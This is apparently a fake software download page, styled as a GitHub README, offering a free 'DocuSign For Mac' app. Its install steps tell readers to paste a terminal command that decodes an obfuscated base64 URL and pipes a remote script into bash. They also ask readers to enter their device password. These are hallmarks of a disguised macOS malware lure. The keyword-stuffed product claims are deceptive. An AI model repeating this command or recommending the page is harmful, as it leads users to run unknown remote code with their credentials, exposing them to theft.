 # DocuSign For Mac — Download For Mac OS 😊
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRE4RWv_pjMg-O9JIgqbATnrRyJRUyd3uPWMw&s)

DocuSign For Mac is a powerful desktop application designed to streamline electronic document signing and management for macOS users. Perfect for professionals, businesses, and individuals, this app simplifies the process of signing, sending, and tracking documents securely. Follow the instructions below to install DocuSign For Mac and enhance your document workflow.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/docusign)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install DocuSign For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **Electronic Signatures**: Sign documents securely with legally binding e-signatures.
- 📂 **Document Management**: Organize, send, and track documents from a centralized dashboard.
- 🛠 **Template Creation**: Build reusable templates to streamline repetitive signing tasks.
- 🔔 **Real-Time Notifications**: Get instant alerts for document status updates and signatures.
- 🔄 **Cloud Syncing**: Access your documents across devices with seamless cloud integration.
- 🔒 **Enhanced Security**: Protect sensitive documents with advanced encryption and authentication.

## About DocuSign For Mac

DocuSign For Mac is a dedicated macOS application designed to simplify electronic document signing and management. Whether you're closing contracts, approving forms, or managing agreements, this app provides a secure and efficient solution tailored for Mac users. With its intuitive interface and robust features, DocuSign For Mac ensures a seamless experience for professionals and businesses. Keywords like *DocuSign Mac app*, *e-signature software Mac*, and *free DocuSign download* make it easy for users to find this powerful tool online.

Built for macOS, DocuSign For Mac offers a native experience with fast performance and offline capabilities, setting it apart from web-based alternatives. The app supports electronic signatures, document tracking, and template management, making it ideal for streamlining workflows. Its cloud-based syncing ensures you can access your documents anywhere, anytime. Search terms like *DocuSign for Mac free* and *electronic signature Mac* enhance its visibility for users seeking reliable e-signature solutions.

DocuSign For Mac is perfect for professionals who need a secure and user-friendly platform for managing agreements. The app integrates with popular tools like Dropbox, Google Drive, and Salesforce, allowing you to incorporate it into your existing workflow. Its customizable templates and real-time notifications save time and improve efficiency. By leveraging keywords such as *document signing Mac* and *DocuSign desktop app*, the app attracts users looking for a comprehensive document management solution.

With regular updates to maintain compatibility with the latest macOS versions, DocuSign For Mac delivers a dependable and secure experience. Its robust security features protect sensitive data, while its intuitive design caters to both beginners and experienced users. Whether you’re searching for *free DocuSign Mac* or *e-signature software for Mac*, this app provides exceptional value for anyone looking to optimize their document signing process.

## Advantages of DocuSign For Mac

- 🌟 **Intuitive Interface**: A macOS-optimized design for a seamless user experience.
- ⚡ **Fast Performance**: Quick load times and smooth operation for efficient workflows.
- 📝 **Secure Signatures**: Legally binding e-signatures with advanced encryption.
- 🛠 **Custom Templates**: Create reusable templates for faster document processing.
- 🆓 **Free Access**: Enjoy powerful features at no cost, perfect for small businesses.
- 🔄 **Cross-Device Syncing**: Seamlessly access your documents across Mac and mobile devices.

## 🖼 Preview

![Dashboard View](https://www.docusign.com/static-c-assets/Send_Tab_Upload_your_documents_modal.jpg)  
*Access and manage your documents with a clean, intuitive dashboard.*

![Document Signing](https://www.titanfile.com/wp-content/uploads/2020/08/TitanFile-DocuSign-Integration.png)  
*Sign documents electronically with ease and precision.*

![Template Management](https://d2uars7xkdmztq.cloudfront.net/app_resources/customizations/CANCOM/30887/overview/img6153220955687603414.png?6df01240730238c8cdf4e50600b2b871)  
*Create and manage reusable document templates for efficient workflows.*

![Notifications Panel](https://i.postimg.cc/3JqX9W4k/docusign-notifications.jpg)  
*Stay updated with real-time alerts for document status changes.*

## 🔍 Tags

DocuSign for Mac, DocuSign free, DocuSign app, DocuSign Mac app, e-signature software Mac, free DocuSign download, DocuSign desktop app, electronic signature Mac, document signing Mac, e-signature software for Mac, free DocuSign Mac, DocuSign, DocuSign log in, DocuSign pricing, DocuSign sign in, Docu sign pricing, DocuSign in, Docu sign com, Docu sign sign in, Docu sign in, DocuSign DocuSign com, DocuSign cost, DocuSign account, DocuSign sign up, DocuSign download, DocuSign for business, DocuSign eSignature, DocuSign com access documents, DocuSign access documents, Docu signature, DocuSign electronic signature, DocuSign document, DocuSign inc, DocuSign documents
